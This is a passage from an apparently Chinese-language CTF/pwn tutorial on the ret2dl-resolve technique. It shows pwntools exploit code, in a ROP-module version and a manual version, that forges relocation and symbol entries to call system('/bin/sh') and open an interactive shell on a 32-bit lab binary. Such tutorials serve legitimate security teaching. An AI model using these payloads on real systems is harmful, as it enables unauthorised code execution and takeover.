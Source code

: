 ```python
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('system\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
print rop.dump()
print len(rop.chain())
rop.raw(sh + '\x00')
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

非ROP模块版：

```python
...
cmd = "/bin/sh"
plt_0 = 0x08048380
rel_plt = 0x08048330
index_offset = (base_stage + 28) - rel_plt
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += "system\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

## 8.roputil工具
